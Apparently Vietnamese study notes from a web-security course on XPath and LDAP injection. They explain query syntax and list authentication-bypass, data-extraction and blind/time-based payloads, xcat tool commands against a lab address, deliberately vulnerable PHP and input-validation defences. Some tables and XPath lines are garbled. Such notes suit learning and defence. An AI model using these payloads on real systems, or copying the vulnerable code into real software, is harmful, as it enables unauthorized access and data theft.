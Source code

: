1. Giới thiệu về tấn công Injection
Lỗ hổng injection là một trong những vấn đề bảo mật phổ biến nhất và luôn nằm trong danh sách OWASP Top Ten kể từ lần phát hành đầu tiên vào năm 2003. Các dạng tấn công injection được biết đến rộng rãi bao gồm:

SQL Injection
Command Injection
Cross-Site Scripting (XSS)

2. Các loại tấn công Injection phổ biến
2.1. XPath Injection
Giới thiệu: XPath là ngôn ngữ truy vấn dữ liệu cho tài liệu XML, tương tự như SQL cho cơ sở dữ liệu.
Vấn đề bảo mật: Lỗ hổng xảy ra khi dữ liệu đầu vào của người dùng được đưa trực tiếp vào truy vấn XPath mà không được kiểm tra. Điều này cho phép kẻ tấn công truy vấn và truy xuất toàn bộ tài liệu XML, gây nguy hiểm cho dữ liệu của ứng dụng.
2.2. LDAP Injection
Giới thiệu: LDAP (Lightweight Directory Access Protocol) là giao thức truy cập các máy chủ thư mục như Active Directory (AD).
Vấn đề bảo mật: Lỗ hổng LDAP Injection xuất hiện khi dữ liệu đầu vào của người dùng được đưa vào bộ lọc tìm kiếm LDAP mà không được kiểm tra. Điều này có thể dẫn đến:
Bypass xác thực: Kẻ tấn công có thể vượt qua cơ chế xác thực nếu truy vấn LDAP được triển khai sai.
Mất dữ liệu: Kẻ tấn công có thể truy xuất hoặc thay đổi dữ liệu trong máy chủ thư mục.
2.3. HTML Injection trong PDF Generators
Giới thiệu: PDF là định dạng tài liệu phổ biến được sử dụng để phân phối thông tin. Nhiều ứng dụng web có tính năng chuyển đổi dữ liệu sang định dạng PDF bằng cách sử dụng các thư viện tạo PDF.
Vấn đề bảo mật: Dữ liệu đầu vào của người dùng thường được đưa trực tiếp vào tài liệu PDF mà không được kiểm tra. Điều này có thể dẫn đến lỗ hổng HTML Injection, gây ra các rủi ro như:
Server-Side Request Forgery (SSRF): Kẻ tấn công có thể ép máy chủ gửi yêu cầu HTTP đến một địa chỉ tùy ý.
Local File Inclusion (LFI): Kẻ tấn công có thể bao gồm các tệp cục bộ vào tài liệu PDF, dẫn đến rò rỉ thông tin hệ thống.

3. Giới thiệu về XPath Injection
3.1. XPath là gì?
XPath (XML Path Language) là một ngôn ngữ truy vấn dữ liệu XML, tương tự như SQL cho cơ sở dữ liệu. XPath được sử dụng để truy vấn và trích xuất dữ liệu từ các tài liệu XML.
Lỗ hổng XPath Injection xảy ra khi đầu vào của người dùng được đưa vào truy vấn XPath mà không được kiểm tra và làm sạch, tương tự như lỗ hổng SQL Injection. Điều này có thể cho phép kẻ tấn công truy xuất toàn bộ tài liệu XML.
3.2. Cấu trúc và thuật ngữ của XPath
XML Declaration: Tài liệu XML bắt đầu bằng khai báo XML, ví dụ: <?xml version="1.0" encoding="UTF-8"?>.
Root Node: Là phần tử gốc của tài liệu XML, ví dụ: <academy_modules>.
Element Node: Các phần tử như <module>, <title>.
Attribute Node: Các thuộc tính như co-author="LTNB0B", difficulty="medium".
Comment Node: Chứa các chú thích, ví dụ: <!-- this is a comment -->.
Text Node: Chứa dữ liệu văn bản, ví dụ: Web Attacks, LTNB0B.
3.3. Truy vấn cơ bản với XPath
Mỗi truy vấn XPath sẽ chọn một tập hợp các node từ tài liệu XML, và bắt đầu từ một context node (điểm khởi đầu).
Ví dụ truy vấn cơ bản:
module: Chọn tất cả các node con module từ context node.
/: Chọn root node của tài liệu.
//: Chọn tất cả các node con từ context node.
.: Chọn context node hiện tại.
..: Chọn parent node của context node hiện tại.
@difficulty: Chọn node thuộc tính difficulty.
text(): Chọn tất cả các node văn bản con.
3.4. Predicates trong XPath
Predicates là bộ lọc cho kết quả truy vấn, tương tự như mệnh đề WHERE trong SQL. Các bộ lọc được chứa trong dấu ngoặc vuông [].
Ví dụ:
/academy_modules/module[1]: Chọn module con đầu tiên của academy_modules.
/academy_modules/module[last()]: Chọn module con cuối cùng của academy_modules.
//module[tier=2]/title: Chọn title của tất cả các module có tier bằng 2.
3.5. Wildcards và Union trong XPath
Wildcards được sử dụng khi không quan tâm đến loại node:
node(): Khớp với bất kỳ node nào.
*: Khớp với bất kỳ element node nào.
@*: Khớp với bất kỳ attribute node nào.
Union: Kết hợp nhiều truy vấn XPath với toán tử |.
Ví dụ: //module[tier=2]/title/text() | //module[tier=3]/title/text(): Chọn text() của tất cả các title từ module có tier bằng 2 hoặc 3.
3.6. Toán tử hỗ trợ trong Predicates
Các toán tử hỗ trợ trong XPath:
+: Phép cộng
-: Phép trừ
*: Phép nhân
div: Phép chia
=: Bằng
!=: Khác
<, <=: Nhỏ hơn, nhỏ hơn hoặc bằng
>, >=: Lớn hơn, lớn hơn hoặc bằng
or: Hoặc logic
and: Và logic
mod: Phép chia lấy dư
Tóm tắt
XPath Injection là một dạng tấn công phổ biến khi dữ liệu đầu vào không được kiểm tra, cho phép kẻ tấn công khai thác và truy vấn dữ liệu XML một cách bất hợp pháp. Để khai thác hiệu quả, kẻ tấn công có thể sử dụng các wildcard, predicates, và toán tử trong XPath để trích xuất dữ liệu từ tài liệu XML, gây rò rỉ thông tin nhạy cảm.

4. Bypass xác thực với XPath Injection
4.1. Tổng quan về XPath Injection để bypass xác thực
XPath Injection tương tự như SQL Injection, có thể được sử dụng để vượt qua cơ chế xác thực của ứng dụng web.
Các truy vấn XPath thường được sử dụng để kiểm tra tên đăng nhập và mật khẩu từ tài liệu XML. Nếu đầu vào của người dùng không được kiểm tra kỹ lưỡng, kẻ tấn công có thể chèn các payload để bypass xác thực.
4.2. Ví dụ về xác thực với truy vấn XPath
Ví dụ tài liệu XML chứa thông tin người dùng:

xml
Sao chép mã
<users>
  <user>
    <name first="Kaylie" last="Grenvile"/>
    <id>1</id>
    <username>kgrenvile</username>
    <password>P@ssw0rd!</password>
  </user>
  <user>
    <name first="Admin" last="Admin"/>
    <id>2</id>
    <username>admin</username>
    <password>admin</password>
  </user>
  <user>
    <name first="Academy" last="Student"/>
    <id>3</id>
    <username>htb-stdnt</username>
    <password>Academy_student!</password>
  </user>
</users>
Truy vấn XPath xác thực:

php
Sao chép mã
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . $_POST['password'] . "']";
$results = $xml->xpath($query);
4.3. Payload bypass xác thực cơ bản
Kẻ tấn công có thể chèn đầu vào như: ' or '1'='1 để làm cho truy vấn luôn trả về true.
Truy vấn sau khi chèn payload:
xpath
Sao chép mã
/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
Truy vấn này sẽ trả về tất cả các node user, cho phép kẻ tấn công đăng nhập dưới tài khoản đầu tiên (kgrenvile).
4.4. Bypass xác thực với người dùng cụ thể
Để đăng nhập dưới tài khoản admin, kẻ tấn công có thể sử dụng payload: admin' or '1'='1.
Truy vấn XPath:
xpath
Sao chép mã
/users/user[username/text()='admin' or '1'='1' and password/text()='abc']
Với toán tử or, truy vấn sẽ trả về node người dùng admin mà không cần mật khẩu chính xác.
4.5. Khai thác nâng cao khi mật khẩu được hash
Trong thực tế, mật khẩu thường được hash trước khi đưa vào truy vấn:

php
Sao chép mã
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . md5($_POST['password']) . "']";
Payload như ' or '1'='1 sẽ không hoạt động vì mật khẩu đã được hash.

4.6. Payload bypass với or true()
Kẻ tấn công có thể sử dụng payload: ' or true() or '.
Truy vấn XPath:
xpath
Sao chép mã
/users/user[username/text()='' or true() or '' and password/text()='hashed_password']
Toán tử or true() làm cho truy vấn luôn trả về true, vượt qua xác thực.
4.7. Sử dụng vị trí để tìm người dùng cụ thể
Kẻ tấn công có thể lặp qua các người dùng bằng cách sử dụng position().
Payload ví dụ: ' or position()=2 or '
Truy vấn XPath:
xpath
Sao chép mã
/users/user[username/text()='' or position()=2 or '' and password/text()='hashed_password']
Truy vấn này trả về node người dùng thứ hai. Kẻ tấn công có thể tăng giá trị position() để tìm người dùng mong muốn.
4.8. Tìm kiếm người dùng theo chuỗi con
Nếu biết một phần tên đăng nhập, kẻ tấn công có thể sử dụng hàm contains().
Payload ví dụ: ' or contains(.,'admin') or '
Truy vấn XPath:
xpath
Sao chép mã
/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='hashed_password']
Truy vấn này trả về tất cả các node user chứa chuỗi con "admin" trong tên đăng nhập.
Tóm tắt
XPath Injection có thể được khai thác để vượt qua cơ chế xác thực bằng cách chèn các payload hợp lý, đặc biệt khi đầu vào không được kiểm tra và làm sạch. Các phương pháp bao gồm sử dụng or true(), position(), và contains(), giúp kẻ tấn công truy cập trái phép vào hệ thống mà không cần mật khẩu hợp lệ.

5. Trích xuất dữ liệu (Data Exfiltration) qua XPath Injection
5.1. Tổng quan về trích xuất dữ liệu
Sau khi đã bypass xác thực thông qua XPath Injection, kẻ tấn công có thể tiếp tục khai thác để trích xuất dữ liệu từ tài liệu XML.
Các kỹ thuật trích xuất dữ liệu tương tự như khai thác dựa trên UNION trong SQL Injection, giúp kẻ tấn công truy vấn dữ liệu tùy ý từ tài liệu XML.
5.2. Xác nhận lỗ hổng XPath Injection
Để xác nhận lỗ hổng, có thể thử gửi payload sau:
Payload: SOMETHINGINVALID') or ('1'='1
Truy vấn XPath sau khi chèn payload:
xpath
Sao chép mã
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID') or ('1'='1')]
Ở đây, mặc dù chuỗi tìm kiếm "SOMETHINGINVALID" là không hợp lệ, nhưng toán tử or ('1'='1') sẽ làm cho truy vấn luôn trả về true, dẫn đến việc chọn tất cả các node ở mức đó. Kết quả là ứng dụng web sẽ trả về tất cả các giá trị tìm thấy, xác nhận rằng lỗ hổng XPath Injection tồn tại.
5.3. Kỹ thuật trích xuất dữ liệu từ tài liệu XML
Cách đơn giản nhất để trích xuất toàn bộ dữ liệu là tạo truy vấn trả về tất cả các node văn bản trong tài liệu.
Ví dụ payload: | //text()
Truy vấn XPath sau khi chèn payload:
xpath
Sao chép mã
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID') or ('1'='1')]/../../..//text()
Giải thích:
Payload sử dụng toán tử | (tương tự như UNION trong SQL) để thêm một truy vấn mới.
Truy vấn ../../..//text() sẽ di chuyển ngược lên root của tài liệu và chọn tất cả các node văn bản.
5.4. Trích xuất toàn bộ tài liệu XML
Sử dụng payload: SOMETHINGINVALID') or ('1'='1 và đặt giá trị tham số f là ../../..//text().
Truy vấn XPath kết quả:
xpath
Sao chép mã
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID') or ('1'='1')]/../../..//text()
Giải thích:
Toán tử or ('1'='1') làm cho điều kiện luôn đúng, giúp truy vấn chọn tất cả các node văn bản từ root của tài liệu.
Kết quả là toàn bộ nội dung văn bản của tài liệu XML sẽ được trả về, cho phép kẻ tấn công trích xuất dữ liệu một cách dễ dàng.
Tóm tắt
Kỹ thuật XPath Injection có thể được sử dụng để khai thác không chỉ để bypass xác thực mà còn để trích xuất dữ liệu từ tài liệu XML. Bằng cách sử dụng các toán tử như or và |, kẻ tấn công có thể thực hiện truy vấn trả về toàn bộ nội dung văn bản của tài liệu, tương tự như khai thác UNION-based trong SQL Injection.

6. Khai thác nâng cao để trích xuất dữ liệu (Advanced Data Exfiltration)
6.1. Thách thức khi trích xuất dữ liệu
Trong một số trường hợp, ứng dụng web chỉ hiển thị số lượng kết quả giới hạn (ví dụ: chỉ 5 kết quả đầu tiên). Điều này khiến cho việc trích xuất toàn bộ tài liệu XML trong một lần trở nên không khả thi.
Để trích xuất tất cả dữ liệu, chúng ta cần duyệt qua từng phần của tài liệu XML và thực hiện truy vấn lặp lại để lấy được toàn bộ dữ liệu.
6.2. Xác định độ sâu của tài liệu XML
Để bắt đầu, chúng ta cần xác định độ sâu của schema XML. Điều này có thể được thực hiện bằng cách thử truy vấn với các payload mà không trả về kết quả nào, sau đó thêm các truy vấn phụ để tìm hiểu cấu trúc schema.
Ví dụ payload:
Tham số q: SOMETHINGINVALID
Tham số f: fullstreetname | /*[1]
Truy vấn XPath:
xpath
Sao chép mã
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID')]/fullstreetname | /*[1]
Giải thích:
Truy vấn phụ /*[1] bắt đầu từ root node /, di chuyển xuống một node con đầu tiên và chọn node con đó.
Nếu node root chứa nhiều node con, kết quả sẽ là một mảng (array), khiến ứng dụng web không thể hiển thị kết quả, dẫn đến phản hồi trống.
6.3. Xác định độ sâu schema qua truy vấn lặp lại
Chúng ta có thể tiếp tục thêm /*[1] vào truy vấn phụ và quan sát thay đổi trong phản hồi của ứng dụng web. Kết quả có thể như sau:
f = fullstreetname /*[1] → Kết quả trống
f = fullstreetname /[1]/[1] → Kết quả trống
f = fullstreetname /[1]/[1]/*[1] → Kết quả trống
f = fullstreetname /[1]/[1]/[1]/[1] → Kết quả trống
f = fullstreetname /[1]/[1]/[1]/[1]/*[1] → Có kết quả
Kết luận: Độ sâu của dữ liệu là 4.
6.4. Trích xuất dữ liệu thông qua lặp lại vị trí
Sau khi xác định độ sâu schema, chúng ta có thể tăng dần chỉ số vị trí trong truy vấn để trích xuất từng phần dữ liệu.
Ví dụ payload:
xpath
Sao chép mã
/[1]/[1]/[1]/[1]
/[1]/[1]/[1]/[2]
/[1]/[1]/[1]/[3]
/[1]/[1]/[1]/[4]
Giải thích:
Truy vấn này sẽ trích xuất thông tin về các node con, ví dụ: tên đầy đủ của đường, tên viết tắt, và loại đường.
6.5. Trích xuất dữ liệu từ các tập dữ liệu khác
Sau khi trích xuất xong thông tin về đường phố, chúng ta có thể tìm kiếm các tập dữ liệu khác bằng cách thay đổi chỉ số vị trí.
Ví dụ tài liệu XML khác:
xml
Sao chép mã
<dataset>
  <streets>
    <street>
      <fullstreetname>01ST ST</fullstreetname>
      <streetname>01ST</streetname>
      <street_type>ST</street_type>
    </street>
  </streets>
  <users>
    <group name="users">
      <user>
        <username>test</username>
        <password>test</password>
      </user>
    </group>
    <group name="admins">
      <user>
        <username>admin</username>
        <password>admin</password>
      </user>
    </group>
  </users>
</dataset>
Trong tài liệu này, các node street nằm ở độ sâu 3, trong khi các node user nằm ở độ sâu 4. Chúng ta cần xác định độ sâu mới khi chuyển sang trích xuất thông tin người dùng.
6.6. Trích xuất thông tin người dùng
Để trích xuất dữ liệu người dùng, chúng ta có thể sử dụng truy vấn:
xpath
Sao chép mã
/[1]/[2]/[1]/[1]/*[1]
/[1]/[2]/[1]/[1]/*[2]
/[1]/[2]/[1]/[1]/*[3]
/[1]/[2]/[1]/[1]/*[4]
Kết quả: Chúng ta có thể trích xuất thông tin như tên người dùng, mật khẩu hash, và mô tả.
6.7. Lưu ý khi khai thác tự động
Để trích xuất toàn bộ tài liệu XML, nên sử dụng một script tự động để duyệt qua các chỉ số vị trí và trích xuất dữ liệu một cách hiệu quả.
Việc thực hiện thủ công có thể không khả thi đối với các tài liệu XML lớn hoặc có cấu trúc phức tạp.
Tóm tắt
Kỹ thuật trích xuất nâng cao trong XPath Injection giúp vượt qua giới hạn về số lượng kết quả trả về. Bằng cách xác định độ sâu schema và sử dụng các truy vấn lặp lại, kẻ tấn công có thể trích xuất toàn bộ nội dung tài liệu XML một cách hiệu quả.


7. Khai thác Blind XPath Injection
7.1. Tổng quan về Blind XPath Injection
Khi ứng dụng web không hiển thị kết quả của truy vấn XPath, vẫn có thể khai thác lỗ hổng này bằng cách sử dụng kỹ thuật tương tự như Blind SQL Injection.
XPath không hỗ trợ hàm sleep(), vì vậy chúng ta cần một chỉ báo (indicator) từ ứng dụng web để xác định kết quả của truy vấn. Điều này cho phép trích xuất dữ liệu dựa trên thông tin nhị phân.
7.2. Phương pháp khai thác
Kỹ thuật khai thác này dựa trên các hàm sau:

name(): Trả về tên của node.
substring(): Trích xuất từng ký tự trong tên node.
string-length(): Xác định độ dài của tên node.
count(): Trả về số lượng node con.
Mục tiêu là trích xuất thông tin cấu trúc XML trước, sau đó là dữ liệu cần thiết.

7.3. Xác nhận lỗ hổng XPath Injection
Để xác nhận lỗ hổng, có thể thử cung cấp payload: invalid' or '1'='1.
Truy vấn XPath kết quả:
xpath
Sao chép mã
/users/user[username='invalid' or '1'='1']
Nếu ứng dụng phản hồi như khi cung cấp tên người dùng hợp lệ, thì lỗ hổng XPath Injection tồn tại.
7.4. Trích xuất độ dài tên node
Để trích xuất độ dài tên của node gốc, có thể sử dụng payload:
xpath
Sao chép mã
invalid' or string-length(name(/*[1]))=1 and '1'='1
Giải thích:
/*[1] chọn node gốc.
Nếu truy vấn không trả về kết quả, cần tăng giá trị độ dài cho đến khi tìm được độ dài chính xác.
Ví dụ: Độ dài tên của node gốc là 5.
7.5. Trích xuất tên của node
Sau khi biết độ dài tên node, chúng ta có thể trích xuất từng ký tự bằng cách sử dụng hàm substring().
Payload ví dụ:
xpath
Sao chép mã
invalid' or substring(name(/*[1]),1,1)='a' and '1'='1
Giải thích:
Payload này kiểm tra xem ký tự đầu tiên của tên node có phải là 'a' hay không.
Lặp qua tất cả các ký tự cho đến khi trích xuất được toàn bộ tên, ví dụ: users.
7.6. Trích xuất số lượng node con
Để xác định số lượng node con, sử dụng hàm count():
xpath
Sao chép mã
invalid' or count(/users/*)=1 and '1'='1
Giải thích:
Truy vấn này trả về dữ liệu nếu số lượng node con là 1. Tăng giá trị cho đến khi tìm được số lượng chính xác.
7.7. Trích xuất dữ liệu từ node con
Sau khi xác định cấu trúc schema, chúng ta có thể trích xuất dữ liệu từ các node con.
Payload ví dụ để trích xuất độ dài tên người dùng:
xpath
Sao chép mã
invalid' or string-length(/users/user[1]/username)=1 and '1'='1
Payload để trích xuất từng ký tự:
xpath
Sao chép mã
invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1
Giải thích:
Lặp qua từng ký tự cho đến khi trích xuất được toàn bộ tên người dùng, ví dụ: admin.
7.8. Khai thác dựa trên thời gian xử lý (Time-based Exploitation)
XPath không có hàm sleep(), nhưng có thể tạo sự khác biệt về thời gian xử lý để xác định kết quả của truy vấn.
Payload ví dụ:
xpath
Sao chép mã
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
Giải thích:
Nếu điều kiện substring(/users/user[1]/username,1,1)='a' là true, phần thứ hai của điều kiện and sẽ được đánh giá.
count((//.)[count((//.))]) yêu cầu ứng dụng duyệt qua toàn bộ tài liệu XML, dẫn đến thời gian xử lý dài hơn đáng kể.
Điều này tạo ra sự khác biệt về thời gian xử lý, cho phép xác định kết quả của truy vấn.
7.9. Lưu ý khi khai thác dựa trên thời gian
Đối với các tài liệu XML lớn, payload có thể gây quá tải máy chủ và dẫn đến tấn công từ chối dịch vụ (DoS).
Cần cẩn thận khi sử dụng kỹ thuật này, đặc biệt trong môi trường thực tế.
Tóm tắt
Blind XPath Injection có thể khai thác bằng cách sử dụng các hàm như name(), substring(), và count() để trích xuất dữ liệu mà không cần kết quả hiển thị trực tiếp. Kỹ thuật dựa trên thời gian xử lý giúp tạo ra một chỉ báo cho kết quả truy vấn, tương tự như Blind SQL Injection. Việc tự động hóa quá trình khai thác bằng script sẽ giúp tiết kiệm thời gian và tăng hiệu quả khai thác.

8. Phòng chống XPath Injection và công cụ hỗ trợ khai thác
8.1. Công cụ hỗ trợ khai thác XPath Injection
Một trong những công cụ phổ biến để khai thác XPath Injection là xcat, cung cấp nhiều tính năng để hỗ trợ phát hiện và khai thác lỗ hổng.

Cài đặt xcat:

bash
Sao chép mã
pip3 install cython
pip3 install xcat
Lệnh chính của xcat:

detect: Phát hiện lỗ hổng XPath Injection.
injections: Hiển thị tất cả các loại injection mà xcat hỗ trợ.
ip: Hiển thị địa chỉ IP hiện tại.
run: Trích xuất tài liệu XML thông qua khai thác XPath Injection.
shell: Mở shell của xcat để thực hiện các lệnh hệ thống.
Ví dụ sử dụng xcat:

bash
Sao chép mã
xcat detect http://172.17.0.2/index.php q q=BAR f=fullstreetname --true-string='!No Result'
Giải thích:

Tham số q là tham số dễ bị tổn thương.
--true-string='!No Result' chỉ định rằng phản hồi không chứa chuỗi "No Result" khi truy vấn trả về kết quả.
Khai thác Blind XPath Injection:

bash
Sao chép mã
xcat detect http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM
Giải thích:

-m POST: Gửi payload dưới dạng POST request.
--true-string=successfully: Phản hồi chứa chuỗi "successfully" khi truy vấn trả về dữ liệu.
Trích xuất toàn bộ tài liệu XML:

bash
Sao chép mã
xcat run http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM
8.2. Phòng chống XPath Injection
Không giống như SQL, một số ngôn ngữ lập trình và thư viện không cung cấp prepared statements hoặc stored procedures cho XPath, do đó việc kiểm tra và làm sạch dữ liệu đầu vào là phương pháp phòng chống hiệu quả nhất.

Các phương pháp phòng chống:

Kiểm tra và làm sạch dữ liệu đầu vào:

Tất cả dữ liệu đầu vào từ người dùng phải được coi là không đáng tin cậy.
Kiểm tra dữ liệu đầu vào trước khi đưa vào truy vấn XPath.
Sử dụng whitelist chỉ cho phép các ký tự chữ và số (alphanumeric). Ví dụ:
php
Sao chép mã
if (!preg_match('/^[a-zA-Z0-9]+$/', $_POST['username'])) {
    die("Invalid input!");
}
Xác thực kiểu dữ liệu:

Xác minh kiểu và định dạng dữ liệu đầu vào. Ví dụ: nếu một giá trị phải là số nguyên, kiểm tra dữ liệu chỉ chứa các chữ số:
php
Sao chép mã
if (!ctype_digit($_GET['id'])) {
    die("Invalid ID!");
}
Kiểm tra ngữ nghĩa dữ liệu:

Nếu dữ liệu chỉ có thể thuộc một tập hợp các giá trị cố định, hãy kiểm tra tính hợp lệ của giá trị đó. Ví dụ:
php
Sao chép mã
$valid_options = ['fullstreetname', 'streetname'];
if (!in_array($_GET['f'], $valid_options)) {
    die("Invalid option!");
}
Sử dụng blacklist (chặn các ký tự đặc biệt):

Chặn các ký tự điều khiển trong XPath:
Dấu nháy đơn (')
Dấu nháy kép (")
Dấu gạch chéo (/)
Ký tự @
Ký tự bằng (=)
Ký tự wildcard (*)
Dấu ngoặc vuông ([, ]) và dấu ngoặc đơn ((, ))
Ví dụ blacklist đơn giản:
php
Sao chép mã
$input = str_replace(["'", '"', "/", "@", "=", "*", "[", "]", "(", ")"], "", $_POST['input']);
8.3. Tại sao whitelist tốt hơn blacklist?
Whitelist chỉ cho phép các ký tự an toàn, giúp giảm thiểu khả năng bỏ sót các ký tự nguy hiểm.
Blacklist có thể bỏ sót các ký tự hoặc chuỗi mới mà kẻ tấn công sử dụng để khai thác lỗ hổng.
Tóm tắt
Phòng chống XPath Injection yêu cầu làm sạch dữ liệu đầu vào một cách nghiêm ngặt và sử dụng các biện pháp kiểm tra hợp lệ. Công cụ như xcat có thể giúp phát hiện và khai thác lỗ hổng, nhưng việc áp dụng các phương pháp phòng chống là cần thiết để bảo vệ ứng dụng khỏi các cuộc tấn công này.

9. Giới thiệu về LDAP Injection
9.1. LDAP là gì?
Lightweight Directory Access Protocol (LDAP) là một giao thức dùng để truy cập các máy chủ thư mục như Active Directory (AD). LDAP cho phép các ứng dụng web tích hợp với AD hoặc các dịch vụ thư mục khác để thực hiện xác thực hoặc truy vấn dữ liệu.
Lỗ hổng LDAP Injection xảy ra khi dữ liệu đầu vào của người dùng được chèn vào các truy vấn LDAP mà không qua kiểm tra và làm sạch đúng cách, dẫn đến nguy cơ bị khai thác.
9.2. Thuật ngữ cơ bản trong LDAP
Directory Server (DS): Là máy chủ lưu trữ dữ liệu, tương tự như một máy chủ cơ sở dữ liệu. Ví dụ: OpenLDAP.
LDAP Entry: Chứa dữ liệu cho một thực thể và gồm 3 thành phần chính:
Distinguished Name (DN): Là định danh duy nhất cho mỗi entry, gồm các Relative Distinguished Names (RDNs). Ví dụ: uid=admin,dc=hackthebox,dc=com.
Attributes: Chứa dữ liệu, bao gồm loại thuộc tính và giá trị.
Object Classes: Định nghĩa kiểu đối tượng, ví dụ: Person hoặc Group.
9.3. Các thao tác trong LDAP
Bind Operation: Xác thực client với máy chủ.
Unbind Operation: Đóng kết nối giữa client và máy chủ.
Add Operation: Thêm entry mới.
Delete Operation: Xóa entry.
Modify Operation: Chỉnh sửa entry.
Search Operation: Tìm kiếm các entry phù hợp với truy vấn.
10. Cú pháp truy vấn tìm kiếm LDAP (LDAP Search Filter)
Truy vấn tìm kiếm trong LDAP được gọi là search filters, gồm các thành phần:

Attribute: Thuộc tính cần tìm kiếm.
Operand: Toán tử so sánh.
Value: Giá trị tìm kiếm.
Ví dụ về operand phổ biến:
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
Operand	Ví dụ	Mô tả
=	(name=Kaylie)	Khớp với tất cả các entry có thuộc tính name là Kaylie.
>=	(uid>=10)	Khớp với tất cả các entry có thuộc tính uid lớn hơn hoặc bằng 10.
<=	(uid<=10)	Khớp với tất cả các entry có thuộc tính uid nhỏ hơn hoặc bằng 10.
~=	(name~=Kaylie)	Khớp xấp xỉ với giá trị Kaylie.
Toán tử kết hợp trong LDAP Search Filters
Operand	Ví dụ	Mô tả
And &	(&(name=Kaylie)(title=Manager))	Khớp với các entry có name là Kaylie và title là Manager.
Or `	`	`(
Not !	(!(name=Kaylie))	Khớp với các entry có name khác Kaylie.
Ký tự đại diện (Wildcard) trong LDAP
Ví dụ	Mô tả
(name=*)	Khớp với tất cả các entry có thuộc tính name.
(name=K*)	Khớp với tất cả các entry có name bắt đầu bằng chữ "K".
(name=*a*)	Khớp với tất cả các entry có name chứa chữ "a".
11. Các loại thuộc tính phổ biến trong LDAP
Thuộc tính	Mô tả
cn	Tên đầy đủ (Full Name)
givenName	Tên đầu tiên (First Name)
sn	Họ (Last Name)
uid	User ID
objectClass	Loại đối tượng (Object Type)
distinguishedName	Distinguished Name
ou	Đơn vị tổ chức (Organizational Unit)
title	Chức vụ (Title)
telephoneNumber	Số điện thoại
description	Mô tả
mail	Địa chỉ email
userPassword	Mật khẩu người dùng
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
12. Lỗ hổng LDAP Injection
Lỗ hổng xảy ra khi dữ liệu đầu vào của người dùng được chèn trực tiếp vào các truy vấn LDAP mà không qua kiểm tra. Điều này cho phép kẻ tấn công chèn các truy vấn độc hại, tương tự như SQL Injection.

Ví dụ về lỗ hổng LDAP Injection
Code PHP dễ bị tấn công:
php
Sao chép mã
$ldap_filter = "(uid=" . $_POST['username'] . ")";
$result = ldap_search($ldap_conn, $base_dn, $ldap_filter);
Payload tấn công: *)(uid=*))(|(uid=*
Truy vấn LDAP kết quả: ((uid=*)(uid=*))(|(uid=*))
Kẻ tấn công có thể truy vấn tất cả các entry mà không cần tên người dùng hợp lệ.

LDAP Authentication Bypass)

LDAP (Lightweight Directory Access Protocol) thường được sử dụng để xác thực người dùng trong các ứng dụng web, đặc biệt là khi tích hợp với Active Directory (AD). LDAP Injection là một phương pháp tấn công để thay đổi bộ lọc tìm kiếm LDAP nhằm vượt qua quá trình xác thực.

Cấu trúc Bộ Lọc LDAP
Khi ứng dụng web xác thực người dùng, bộ lọc LDAP có thể trông như sau:

ldap
Sao chép mã
(&(uid=admin)(userPassword=password123))
Trong đó:

uid là tên người dùng.
userPassword là mật khẩu.
Lợi dụng LDAP Injection để Bypass Xác thực
1. Dùng Ký Tự Wildcard (*) để Vượt Qua Mật Khẩu
Ký tự * được xem như một ký tự wildcard trong LDAP, có thể được sử dụng để bỏ qua kiểm tra mật khẩu. Ví dụ:

Tên người dùng: admin
Mật khẩu: *
Bộ lọc LDAP sẽ trở thành:

ldap
Sao chép mã
(&(uid=admin)(userPassword=*))
Điều này cho phép người tấn công đăng nhập thành công mà không cần mật khẩu.

2. Dùng Ký Tự Wildcard trong Trường Tên Người Dùng
Nếu không biết tên người dùng hợp lệ, có thể chèn ký tự wildcard vào trường tên người dùng, dẫn đến bộ lọc như sau:

ldap
Sao chép mã
(&(uid=*)(userPassword=*))
Điều này sẽ khớp với mọi mục có cả uid và userPassword, cho phép người tấn công đăng nhập như người dùng đầu tiên trong danh sách.

3. Dùng Substring của Tên Người Dùng
Khi biết một phần tên người dùng hợp lệ (ví dụ: biết "admin" nhưng không biết đầy đủ tên người dùng), người tấn công có thể sử dụng substring. Ví dụ:

ldap
Sao chép mã
(&(uid=admin*)(userPassword=*))
Điều này khớp với mọi mục có uid bắt đầu bằng "admin", giúp bỏ qua các biện pháp ẩn danh và đăng nhập thành công.

4. Bypass Xác Thực mà Không Dùng Wildcard
Trong một số trường hợp, ứng dụng web có thể chặn ký tự wildcard (*). Tuy nhiên, người tấn công vẫn có thể vượt qua xác thực bằng cách thay đổi cấu trúc bộ lọc LDAP. Ví dụ:

Tên người dùng: admin)(|(&
Mật khẩu: abc
Bộ lọc LDAP sẽ trở thành:

ldap
Sao chép mã
(&(uid=admin)(|(&)(userPassword=abc)))
Bằng cách chèn (|(&), bộ lọc chứa một điều kiện OR với một toán tử true ((&)), giúp bỏ qua kiểm tra mật khẩu sai và đăng nhập thành công nếu cung cấp một tên người dùng hợp lệ.

Kết Luận
LDAP Injection có thể là một phương pháp tấn công mạnh mẽ để vượt qua xác thực trong các ứng dụng web sử dụng LDAP. Các cách khai thác chính bao gồm sử dụng wildcard, chèn điều kiện OR, và thay đổi cấu trúc bộ lọc LDAP. Để ngăn chặn các lỗ hổng này, các nhà phát triển cần phải kiểm tra và lọc kỹ lưỡng tất cả các đầu vào người dùng.

